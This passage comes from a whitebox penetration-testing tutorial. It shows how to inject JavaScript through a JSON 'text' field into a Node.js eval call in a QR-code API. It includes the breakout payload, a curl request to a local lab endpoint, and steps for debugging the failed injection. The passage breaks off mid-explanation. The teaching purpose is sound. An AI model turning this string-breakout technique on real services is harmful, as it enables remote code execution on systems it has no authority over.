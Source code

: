 ## Code Injection

Let's try injecting a simple `console.log` function and watch the Node console to see if it logs anything. To do so, we will add a semi-colon `;` after the parenthesis to start a new line of code and then add the injected code, as follows:

```json
{ "text": "'}); console.log('pwned')//" }

```

Before we send our payload, let's see how it would look like within the JavaScript code "we can remove the part after `//` as it won't affect the code":

```js
throw { message: 'The input "' };
console.log("pwned"); //

```

As we can see from the syntax highlighting, it appears to be a working JavaScript code. So, let's try to send this payload to `/api/service/generate` (we escaped double quotes in JSON):

```shell
curl -s -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1N...SNIP...9R6zeoubrQTbUiThBpeQD7_DWibgo" -d "{ \"text\": \"'}); console.log('pwned')//\" }" http://localhost:5000/api/service/generate
{"message":"Could not generate QR code."}

```

We get the expected error message, but when we go to the `Debug Console` in VSCode (CMD/CTRL+SHIFT+Y), we do not see anything logged into the console:
![](rAzrHqYvEkUW.png)

That is odd. Our injection has failed. We may face similar cases in a real whitebox pentest exercise, so let's do some debugging to see what went wrong.

## Debugging

To ensure that we successfully reach code injection, we must ensure that our payload reaches the vulnerable function as expected. So, let's set a breakpoint on the `eval` function at line `9`, and send the above request again, to review the value of `onError`:
![](EqfV8OlSNZFp.png)

As we can see, we did get the value. So, let's right-click on it and select `Copy Value` to review it:

```js
"throw({message: 'The input \"'}); console.log('pwned')//\" contains the following invalid characters: [',',']', statusCode: 403})";

```

Let's remove the quotes and any added double-quote escapes to view this as JavaScript code as would be executed by the eval function:
